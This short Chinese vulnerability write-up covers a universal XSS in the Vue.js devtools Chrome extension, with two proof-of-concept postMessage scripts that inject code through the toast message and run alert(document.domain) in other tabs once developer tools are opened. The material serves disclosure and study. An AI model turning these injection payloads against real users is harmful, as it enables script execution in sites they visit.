

# Chrome 插件 Vue.js devtools UXSS


在中devtools-background.js，toast函数中存在代码注入。它可以由任何选项卡中的postMessage触发，从而在打开浏览器的开发人员工具（F12）时产生通用XSS。攻击者可以托管一个特制网页来利用此漏洞，然后诱使用户查看该网页并在其他Chrome标签中打开开发人员工具（F12）。

条件有点苛薄...需要安装特定版本插件，然后访问指定PoC网页   最后打开开发者工具(F12)进行触发..

受影响版本：

* Vue.js devtools 5.3.3
* Vue.js devtools 6.0.0 beta3

详细分析见：https://github.com/vuejs/vue-devtools/issues/1353

chrome插件：https://chrome.google.com/webstore/detail/vuejs-devtools/nhdogjmejiglipccpnnnanhbledajbpd

**PoC1:**

```js
<script>
    setInterval(() => {
        window.postMessage({
            vueDetected: true,
            vueToast: {
                message: '`,`normal`); function __VUE_DEVTOOLS_TOAST__(){}; alert(document.domain);//'
            }
        }, '*')
    }, 1000)
</script>
```

POC2:

```js
<script>
    const urls = ['https://www.google.com/', 'https://github.com', 'https://vuejs.org/']
    var i = 0;
    setInterval(() => {
        window.postMessage({
            vueDetected: true,
            vueToast: {
                message: '`,`normal`); function __VUE_DEVTOOLS_TOAST__(){}; alert(document.domain); location=`' + urls[i++%3] +'`//'
            }
        }, '*')
    }, 3000)
</script>
```




ref：

https://github.com/vuejs/vue-devtools/issues/1353

https://forum.ywhack.com/thread-115069-1-1.html